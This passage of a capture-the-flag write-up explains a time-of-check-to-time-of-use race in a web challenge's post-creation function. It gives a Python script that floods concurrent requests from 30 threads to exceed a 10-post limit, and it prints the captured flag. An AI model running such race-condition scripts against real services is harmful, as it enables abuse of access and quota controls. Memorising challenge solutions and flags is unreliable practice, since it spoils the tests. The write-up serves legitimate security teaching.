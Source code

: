 Yep, definitely a [TOCTOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use){:target="_blank"} problem.

We can see that the `CreatePost` function will call `CheckNoOfPosts` first then after a `while`, it will call `InsertPost`. In that time frame, we can send a bunch of request to create post at the same time and it will go past the 10 notes limit.

Here's my script to do that:

**Solve script**
```python
import requests 
from threading import Thread
import string, random
def generate_username():
  characters = string.ascii_letters + string.digits + '._-'
  username = ''.join(random.choice(characters) for _ in range(random.randint(5, 32)))
  return username

url = "http://22702c31-cd7b-4578-a208-6089c7eba89d.bugg.cc"
sess = requests.Session()
username = generate_username()
print("USERNAME:", username)
res = sess.post(url + "/register", json={'username': username, 'password': '123123'})
res = sess.post(url + "/login", json={'username': username, 'password': '123123'})
print(sess.cookies.get_dict())
def post():
  while True:
    sess.post(url + "/user/posts/create", json={'title':'lmao','data':'lmao'})

for i in range(30):
  t1 = Thread(target=post)    
  t1.daemon = True
  t1.start()

while True:
  input(">")
  res = sess.get(url + "/user/flag")
  print(res.text)
  username = generate_username()
  print("USERNAME:", username)
  sess.post(url + "/register", json={'username': username, 'password': '123123'})
  sess.post(url + "/login", json={'username': username, 'password': '123123'})
```
It takes a couple tries but eventually it will spit out the flag
![terminal](trendzz.png)

**Flag:** `CSCTF{d2426fb5-a93a-4cf2-b353-eac8e0e9cf94}`

## Trendzzz
**Solvers:** 37 <br>
**Author:** careless_finch
